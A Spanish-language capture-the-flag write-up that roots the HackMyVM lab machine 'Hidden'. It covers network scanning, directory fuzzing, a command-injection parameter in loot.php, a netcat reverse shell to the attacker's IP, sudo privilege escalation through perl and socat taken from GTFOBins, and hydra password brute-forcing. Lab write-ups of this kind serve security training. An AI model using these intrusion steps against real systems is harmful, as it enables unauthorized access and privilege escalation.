 ## MAQUINA HIDDEN

![](https://github.com/Qu0kk4/Quokk4/blob/main/HackMyVm/image/Captura%20de%20pantalla%202024-04-24%20210455.png)

Hacemos un escaneo de red para saber que maquinas estan conectadas en nuestra red, para ello utilizamos netdiscover:

````bash
netdiscover -i eth0 -r 192.168.0.19
````
![](https://github.com/Qu0kk4/Quokk4/blob/main/HackMyVm/image/Captura%20de%20pantalla%202024-04-24%20151549.png)

Luego creamos una carpeta con la ip para ser un poco mas ordenado, seguidamente hacemos un ping para verificar si tenemos conectividad con la maquina.

![](https://github.com/Qu0kk4/Quokk4/blob/main/HackMyVm/image/Captura%20de%20pantalla%202024-04-24%20151608.png)

Ahora continuamos con un escaneo de puertos usando nmap:

````bash
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn
````
![](https://github.com/Qu0kk4/Quokk4/blob/main/HackMyVm/image/Captura%20de%20pantalla%202024-04-24%20151726.png)

````bash
nmap -sV -sC 192.168.0.19
````
![](https://github.com/Qu0kk4/Quokk4/blob/main/HackMyVm/image/Captura%20de%20pantalla%202024-04-24%20151735.png)

Tenemos los puertos 22 y el 80 abiertos:
Entramos al servicio web:

![](https://github.com/Qu0kk4/Quokk4/blob/main/HackMyVm/image/Captura%20de%20pantalla%202024-04-24%20151848.png)

Revisamos el codigo fuente de la imagen y tenemos algo importante.

![](https://github.com/Qu0kk4/Quokk4/blob/main/HackMyVm/image/Captura%20de%20pantalla%202024-04-24%20151857.png)

En la cadena de texto nos dice que hay que desencodear la imagen, asi que buscamos informacion en google y nos da que es una especie de encodeacion llamada rosicruician cipher.

![](https://github.com/Qu0kk4/Quokk4/blob/main/HackMyVm/image/Captura%20de%20pantalla%202024-04-24%20162328.png)

Buscamos en dCode.com y colocamos los signos.

![](https://github.com/Qu0kk4/Quokk4/blob/main/HackMyVm/image/Captura%20de%20pantalla%202024-04-24%20162304.png)

Tenemos como respuesta la palabra: "syshiddenhmv".

![](https://github.com/Qu0kk4/Quokk4/blob/main/HackMyVm/image/Captura%20de%20pantalla%202024-04-24%20162522.png)

En el codigo fuente vemos que en el "formato" que parece ser una url, asi que colocamos en el /etc/hosts el sys.hidden.hmv.

![](https://github.com/Qu0kk4/Quokk4/blob/main/HackMyVm/image/Captura%20de%20pantalla%202024-04-24%20163003.png)

![](https://github.com/Qu0kk4/Quokk4/blob/main/HackMyVm/image/Captura%20de%20pantalla%202024-04-24%20163326.png)

Colocamos la url en la web y tenemos el siguiente respuesta.

![](https://github.com/Qu0kk4/Quokk4/blob/main/HackMyVm/image/Captura%20de%20pantalla%202024-04-24%20163247.png)

Con gobuster vamos enumerar los directorios ocultos de la web de sys.hidden.hmv.
Y encontramos 3 directorios

````bash
gobuster -u ip -w wordlists
````
![](https://github.com/Qu0kk4/Quokk4/blob/main/HackMyVm/image/Captura%20de%20pantalla%202024-04-24%20164115.png)

En el directorio users tenemos este archivo llamado secret.txt

![](https://github.com/Qu0kk4/Quokk4/blob/main/HackMyVm/image/Captura%20de%20pantalla%202024-04-24%20163427.png)

![](https://github.com/Qu0kk4/Quokk4/blob/main/HackMyVm/image/Captura%20de%20pantalla%202024-04-24%20163439.png)

En el directorio oculto members aparece lo siguiente:

![](https://github.com/Qu0kk4/Quokk4/blob/main/HackMyVm/image/Captura%20de%20pantalla%202024-04-24%20163701.png)

Bien aca nos centraremos en el directorio weapon, aca el directorio no nos brinda info por lo que realizamos otro escaneo de directorios ocultos pero esta vez con wfuzz:

````bash
wfuzz -c --hc -t 200 -w wordlists http://sys.hidden.hmv/FUZZ -z .php,.txt
````
Y nos encontro 2 directorios, un index.html y uno llamado loot.php

![](https://github.com/Qu0kk4/Quokk4/blob/main/HackMyVm/image/Captura%20de%20pantalla%202024-04-24%20165029.png)

Bueno entramos al directorio loot.php y no nos dirije a ningun lado y tampoco tenemos ningun resultado que nos de informacion.

Lo que hay que hacer es realizar otro escaneo de directorios ya con la misma herramienta ya que nos falta otro parametro en la url. 

Aca tenemos un ejemplo de como poder fuzzear la url para buscar otros parametros.

![](https://github.com/Qu0kk4/Quokk4/blob/main/HackMyVm/image/Captura%20de%20pantalla%202024-04-24%20165054.png)

![](https://github.com/Qu0kk4/Quokk4/blob/main/HackMyVm/image/Captura%20de%20pantalla%202024-04-24%20184224.png)

Vamos a realizar el escaneo con wfuzz:

````bash
wfuzz -c --hw 0 -t 200 -w /usr/share/wordlists/seclists/Discover/WEB-Content/discovery-list-2.3-medium.txt http://sys.hidden.hmv/weapon/loot.php?FUZZ=ls
````
![](https://github.com/Qu0kk4/Quokk4/blob/main/HackMyVm/image/Captura%20de%20pantalla%202024-04-24%20194127.png)

Como resultado tenemos el parametro 'hack', colocamos esto en la url y quedaria de la siguiente forma:

'http://sys.hidden.hmv/weapon/loot.php?hack=ls' esto al colocarle el parametro ls, nos va a listar el contenido interno de donde esta alejado la maquina.

![](https://github.com/Qu0kk4/Quokk4/blob/main/HackMyVm/image/Captura%20de%20pantalla%202024-04-24%20194324.png)

Probamos con whoami y nos lista el usuario www-data.

![](https://github.com/Qu0kk4/Quokk4/blob/main/HackMyVm/image/Captura%20de%20pantalla%202024-04-24%20194334.png)

Como podemos injectar comando, nos enviamos una revershell dirigida a nuestra maquina con el comando:

````bash
nc -e /bin/bash 192.168.0.162 1234
````
![](https://github.com/Qu0kk4/Quokk4/blob/main/HackMyVm/image/Captura%20de%20pantalla%202024-04-24%20194650.png)

nos ponemos en escucha con netcat y al enviarnos la revershell obtenemos acceso siendo usuario www-data:

![](https://github.com/Qu0kk4/Quokk4/blob/main/HackMyVm/image/Captura%20de%20pantalla%202024-04-24%20201136.png)

Vemos los usuarios dentro de la maquina leyendo el /etc/passwd y tenemos 2 usuarios:

![](https://github.com/Qu0kk4/Quokk4/blob/main/HackMyVm/image/Captura%20de%20pantalla%202024-04-24%20202143.png)

Entramos en el directorio atenea y leemos con ls -la el contenido del directorio encontrandonos con una carpeta oculta llamad .hidden

![](https://github.com/Qu0kk4/Quokk4/blob/main/HackMyVm/image/Captura%20de%20pantalla%202024-04-24%20202243.png)

En esa carpeta tenemos un archivo llamado atenea.txt, que no podemos leer porque no tenemos permisos.

![](https://github.com/Qu0kk4/Quokk4/blob/main/HackMyVm/image/Captura%20de%20pantalla%202024-04-24%20202304.png)

Buscamos binarios con sudo -l  y podemos acceder a usuarios toreto con el binario perl porque no nos pide pass.

![](https://github.com/Qu0kk4/Quokk4/blob/main/HackMyVm/image/Captura%20de%20pantalla%202024-04-24%20202424.png)

![](https://github.com/Qu0kk4/Quokk4/blob/main/HackMyVm/image/Captura%20de%20pantalla%202024-04-24%20202445.png)

Colocamos el comando encontrado en gtfobins y somos usuario toreto.

![](https://github.com/Qu0kk4/Quokk4/blob/main/HackMyVm/image/Captura%20de%20pantalla%202024-04-24%20202901.png)

Volvemos a la carpeta .hidden para leer el contenido, y tenemos una lista de palabras que a simple vista parecen posibles passwd

![](https://github.com/Qu0kk4/Quokk4/blob/main/HackMyVm/image/Captura%20de%20pantalla%202024-04-24%20203016.png)

Con hydra vamos a probar si encontramos alguna passwd para el usuario atenea.

![](https://github.com/Qu0kk4/Quokk4/blob/main/HackMyVm/image/Captura%20de%20pantalla%202024-04-24%20210044.png)

Y nos encuentra una password, nos logueamos en el ssh y somos el usuario atenea.

![](https://github.com/Qu0kk4/Quokk4/blob/main/HackMyVm/image/Captura%20de%20pantalla%202024-04-24%20210130.png)

Buscamos binarios con sudo -l y tenemos un binario llamado socat

![](https://github.com/Qu0kk4/Quokk4/blob/main/HackMyVm/image/Captura%20de%20pantalla%202024-04-24%20210205.png)

Volvemos a buscar en gtfobins si es posbile escalar privilegios con el binario socat y vemos que si

![](https://github.com/Qu0kk4/Quokk4/blob/main/HackMyVm/image/Captura%20de%20pantalla%202024-04-24%20210226.png)
![](https://github.com/Qu0kk4/Quokk4/blob/main/HackMyVm/image/Captura%20de%20pantalla%202024-04-24%20210313.png)
![](https://github.com/Qu0kk4/Quokk4/blob/main/HackMyVm/image/Captura%20de%20pantalla%202024-04-24%20210322.png)

somos root!

![](https://github.com/Qu0kk4/Quokk4/blob/main/HackMyVm/image/Captura%20de%20pantalla%202024-04-24%20210504.png)
